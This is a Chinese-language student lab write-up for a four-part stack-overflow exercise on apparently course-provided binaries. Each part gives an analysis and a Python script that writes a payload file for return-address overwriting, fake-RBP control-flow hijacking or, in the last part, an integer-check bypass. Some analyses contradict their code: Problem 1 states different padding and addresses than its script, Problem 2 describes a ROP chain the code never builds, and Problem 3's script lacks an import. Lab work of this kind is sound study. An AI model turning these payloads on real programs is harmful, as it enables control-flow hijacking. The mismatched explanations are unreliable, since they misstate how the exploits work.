




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：程序的主要漏洞在于`func`函数中使用`memcpy`进行数据复制时未检查输入长度，导致缓冲区溢出。通过分析汇编代码，发现缓冲区位于`rbp-0x8`，返回地址在`rbp+0x8`，计算得出需要16字节填充才能覆盖返回地址。我尝试直接将返回地址覆盖为目标函数地址，但发现需要正确处理栈对齐和保存的RBP值。经过调试，最终使用32字节填充加上目标地址`0x401146`的方案，成功使程序输出目标字符串。这一过程让我理解了64位栈帧布局和基本的返回地址覆盖技术。

- **解决方案**：

  ```python
  # 填充 16 个字节
  padding = b'A' * 16
  
  # func1 地址的低 3 字节（因为原返回地址高 5 字节已经是 0x0000000000）
  # 原返回地址 0x401362 -> 62 13 40 00 00 00 00 00
  # 改为 0x401216 -> 16 12 40 00 00 00 00 00
  # 只覆盖低 3 字节：0x16, 0x12, 0x40
  address = b'\x16\x12\x40'
  
  # payload = 填充 + 地址低 3 字节 + 空字节（确保 strcpy 正常终止）
  payload = padding + address + b'\x00'
  
  # 写入文件
  with open("ans1.txt", "wb") as f:
      f.write(payload)
  
  print(f"Payload length: {len(payload)} bytes")
  print("Payload written to ans1.txt")
  print("Hex view:", payload.hex())
  ```

- **结果**：附上图片

  


### Problem 2:

- **分析**：这个题目启用了NX保护，栈不可执行，需要采用ROP技术。分析发现目标函数`func2`需要参数`0x3f8`才能输出正确结果。我最初尝试直接跳转但失败，随后发现程序提供了`pop rdi; ret` gadget。通过构造ROP链：先设置`rdi=0x3f8`再调用`func2`，成功绕过NX保护。调试中发现还需要正确处理栈上保存的RBP值，否则会导致段错误。最终使用`.data`段地址作为RBP，确保内存访问的合法性。

- **解决方案**：

  ```python
  import struct
  
  # 生成 payload
  payload = b""
  payload += b"A" * 8                     # 填充缓冲区
  payload += struct.pack("<Q", 0x404050)  # RBP = .data 段地址
  payload += struct.pack("<Q", 0x40124c)  # 返回地址 = 目标代码
  payload += b"X" * 32                    # 填充剩余空间（共56字节）
  
  # 保存到 ans2.txt
  with open("ans2.txt", "wb") as f:
      f.write(payload)
  
  ```

  

- **结果**：

  

### Problem 3: 
- **分析**：我最初尝试多种方法都失败了：直接调用`func1`需要参数，但找不到设置参数的gadget；尝试使用`jmp_xs`函数，但需要精确计算`saved_rsp+0x10`的位置。关键突破是发现`func1`中从`0x40122b`开始的代码可以直接输出目标字符串而绕过参数检查。然而这需要有效的RBP值，否则`func1`会向非法地址写入数据。最终方案是在缓冲区开始处放置目标地址，使用数据段地址`0x403600`作为Fake RBP，让`jmp_xs`跳转到正确位置。

- **解决方案**：

  ```python
  FAKE_RBP = 0x403600          # 数据段地址，作为安全的栈帧基址
  TARGET_ADDR = 0x40122b       # func1中输出成功信息的起始地址，跳过参数检查
  
  payload = b""
  payload += b"A" * 32
  payload += struct.pack("<Q", FAKE_RBP)
  
  # 8字节目标地址（覆盖返回地址）
  payload += struct.pack("<Q", TARGET_ADDR)
  
  # memcpy复制0x40(64)字节，填充剩余空间
  remaining = 64 - len(payload)
  if remaining > 0:
      payload += b"B" * remaining
  
  # 保存到ans3.txt
  with open("ans3.txt", "wb") as f:
      f.write(payload)
  
  ```

  

- **结果**：

  

### Problem 4: 
- **分析**：这个题目启用了栈金丝雀保护，传统的栈溢出攻击无效。我分析`func`函数的逻辑，发现存在整数检查漏洞。通过数学推导，输入`-1`（0xffffffff）可以满足所有检查条件。但程序需要三个输入：两个字符串和一个整数。最初只输入整数失败，分析main函数后发现前两个输入用于凯撒密码解密展示。最终提供完整的三个输入，成功触发`func1`调用。这展示了当内存保护生效时，逻辑漏洞仍然可能被利用。

- **解决方案**：

  ```python
  input_data = 'test_name\ntest_string\n-1\n'
  with open('ans4.txt', 'w') as f:
      f.write(input_data)
  ```

  

- **结果**：

  

## 思考与总结

Problem 1 和 2 展示了传统溢出攻击的演进，Problem 3 需要深入理解程序内部结构和栈布局，Problem 4 则转向逻辑漏洞利用。我认识到，现代系统防御（如NX、栈金丝雀）虽然增加了攻击难度，但程序逻辑漏洞和设计缺陷仍然可能被利用。调试和分析过程至关重要，特别是使用gdb查看实际栈布局和寄存器状态。这次实验加深了我对系统安全机制和漏洞利用技术的理解。
